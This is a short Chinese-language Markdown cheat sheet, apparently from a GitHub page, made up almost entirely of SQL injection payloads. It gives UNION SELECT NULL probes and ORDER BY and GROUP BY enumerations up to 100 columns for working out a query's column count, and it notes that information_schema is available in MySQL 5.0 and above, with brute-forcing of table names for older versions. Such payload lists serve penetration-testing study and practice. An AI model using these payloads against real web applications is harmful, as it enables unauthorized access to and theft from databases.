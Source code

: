 



### 欄位數 
猜出2

```
1' union select NULL #
1' union select NULL,NULL #



1' UNION SELECT @ #
1' UNION SELECT @,@ #
```


```
1' ORDER BY 1 #

1' ORDER BY 2 #

1' ORDER BY 3 #
```


```
1' GROUP  BY 1 #

1' GROUP  BY 2 #

1' GROUP  BY 3 #
```


```
1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100 #




1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100 #
```




### information_schema 提取數據庫

information_schema 5.0 以上有
information_schema 5.0 以下暴力跑表
